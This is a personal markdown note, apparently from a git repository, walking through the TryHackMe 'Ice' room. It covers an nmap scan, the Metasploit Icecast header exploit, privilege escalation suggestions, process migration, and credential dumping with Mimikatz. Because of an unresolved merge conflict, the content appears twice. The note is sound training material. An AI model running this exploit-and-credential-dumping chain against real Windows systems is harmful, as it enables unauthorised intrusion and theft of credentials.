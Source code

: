 <<<<<<< HEAD
- hacking Windows server
- https://tryhackme.com/room/ice

- nmap scan `nmap -sS -sV -p- <IP>`
	- 135: msrpc
	- 139: netbios-ssn
	- 445: microsoft-ds (WORKGROUP)
	- 3389: tcpwrapped
	- 5357: http
		- HTTPAPI 2.0 (SSDP/UPnP)
	- 8000: http
		- Icecast streaming media server
	- 49152, 49153, 49154, 49158, 49159, 49160: msrpc
	- Service info:
		- Host: DARK-PC; cpe:/o\:microsoft:windows 

- gaining access throught Icecast and escalating privileges
	- research on vulnerabilities
		- https://www.cvedetails.com/cve/CVE-2004-1561/ → has Metasploit exploit
	- Metasploit
		- → run `exploit/windows/http/icecast_header`
	- Meterpreter
		- sessionId: session 1
		- who is running Icecast? (current user) → `getuid` → Dark
		- `sysinfo` → get info about build,...
		- `run post/multi/recon/local\_exploit\_suggester`
			- can run several minutes
			- will give us potential exploits
				- exploit/windows/local/bypassuac_eventvwr
				- exploit/windows/local/ikeext_service
				- exploit/windows/local/ms10_092_schelevator
				- exploit/windows/local/ms13_053_schlamperei
				- exploit/windows/local/ms13_081_track_popup_menu
				- exploit/windows/local/ms14_058_track_popup_menu
				- exploit/windows/local/ms15_051_client_copy_image
				- exploit/windows/local/ntusermndragover
				- exploit/windows/local/ppr_flatten_rec:
		- background Meterpeter and start running exploits
		- if the exploit is succesfull you get another session
			- get to that session `sessions <sessionId>`
			- check permissions `getprivs`

- start looting
	- show running processes `ps`
	- find one that is running on the same architecture as lsass service
		- → spoolsv.exe ~ printer
	- switch to another process `migrate -N <process_name>`
		- → now we have full admin permission
	- run Mimikatz `load kiwi`
		- retrieve all creds `creds_all`

- post-exploitation
=======
- hacking Windows server
- https://tryhackme.com/room/ice

- nmap scan `nmap -sS -sV -p- <IP>`
	- 135: msrpc
	- 139: netbios-ssn
	- 445: microsoft-ds (WORKGROUP)
	- 3389: tcpwrapped
	- 5357: http
		- HTTPAPI 2.0 (SSDP/UPnP)
	- 8000: http
		- Icecast streaming media server
	- 49152, 49153, 49154, 49158, 49159, 49160: msrpc
	- Service info:
		- Host: DARK-PC; cpe:/o\:microsoft:windows 

- gaining access throught Icecast and escalating privileges
	- research on vulnerabilities
		- https://www.cvedetails.com/cve/CVE-2004-1561/ → has Metasploit exploit
	- Metasploit
		- → run `exploit/windows/http/icecast_header`
	- Meterpreter
		- sessionId: session 1
		- who is running Icecast? (current user) → `getuid` → Dark
		- `sysinfo` → get info about build,...
		- `run post/multi/recon/local\_exploit\_suggester`
			- can run several minutes
			- will give us potential exploits
				- exploit/windows/local/bypassuac_eventvwr
				- exploit/windows/local/ikeext_service
				- exploit/windows/local/ms10_092_schelevator
				- exploit/windows/local/ms13_053_schlamperei
				- exploit/windows/local/ms13_081_track_popup_menu
				- exploit/windows/local/ms14_058_track_popup_menu
				- exploit/windows/local/ms15_051_client_copy_image
				- exploit/windows/local/ntusermndragover
				- exploit/windows/local/ppr_flatten_rec:
		- background Meterpeter and start running exploits
		- if the exploit is succesfull you get another session
			- get to that session `sessions <sessionId>`
			- check permissions `getprivs`

- start looting
	- show running processes `ps`
	- find one that is running on the same architecture as lsass service
		- → spoolsv.exe ~ printer
	- switch to another process `migrate -N <process_name>`
		- → now we have full admin permission
	- run Mimikatz `load kiwi`
		- retrieve all creds `creds_all`

- post-exploitation
>>>>>>> ed86870e047cc27b656f2f20735dd248c5953b5d
	- what can you do with mimikatz